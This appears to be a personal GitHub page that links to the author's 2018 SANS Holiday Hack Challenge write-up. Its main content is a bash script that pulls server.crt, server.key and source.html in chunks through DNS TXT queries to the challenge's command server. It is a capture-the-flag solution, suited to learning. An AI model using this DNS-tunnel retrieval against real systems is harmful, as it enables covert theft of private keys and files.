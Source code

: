 ## SANS Holiday Hack Challenge

Looking for my 2018 SANS Holiday Hack Challenge writeup? [Et voila!](files/CraHan%20-%20KringleCon%202018%20writeup.pdf)

```bash
#!/bin/bash

files=('server.crt' 'server.key' 'source.html')

for file in "${files[@]}" 
do
    # Convert filename to hex
    fnhex=$(xxd -pu <<< $file)

    # Strip the linefeed
    fnhex=${fnhex::-2}

    # DNS query requesting number of chunks
    chunks=$(host -t txt ${fnhex}.erohetfanu.com erohetfanu.com | \ 
    sed -n 's/.*\"\([0-9]*\)\".*/\1/p')

    # Check if value was returned
    if [ $chunks > 0 ]
    then
        echo "${file} found (${chunks} chunks)."

        if [ "$1" != "recon" ]
        then
            # Grab the file and save it to ${file}.hex
            echo -n "Grabbing chunk: "
            chunks=$(expr $chunks - 1)

            for chunk in $(eval echo "{0..$chunks}")
            do
                remainder=$(( chunk % 100 ))
                [ "$remainder" -eq 0 ] && echo -n "${chunk}..."

                host -t txt ${chunk}.${fnhex}.erohetfanu.com erohetfanu.com | \
                sed -n 's/.*\"\(.*\)\".*/\1/p' >> "${file}.hex"
            done

            printf "done.\n\n"
            
            # remove \n
            cat ${file}.hex | tr -d '\n' > ${file}-clean.hex

            # convert back to binary
            xxd -r -p ${file}-clean.hex ${file}
        fi
    else
        echo "${file} not found."
    fi
done
```

## Random

> Folks that throw dirt on you aren't always trying to hurt you, and folks that pull you out of a jam aren't always trying to help you. But the main point is when you're up to your nose in shit, keep your mouth shut.
> 
> -- <cite>Jack Beauregard</cite>

## Elsewhere

- [Twitter](https://www.twitter.com/crahan)
- [Instagram](https://instagram.com/crahan)
- [Github](https://github.com/crahan)
- [Pinboard](https://pinboard.in/u:crahan)

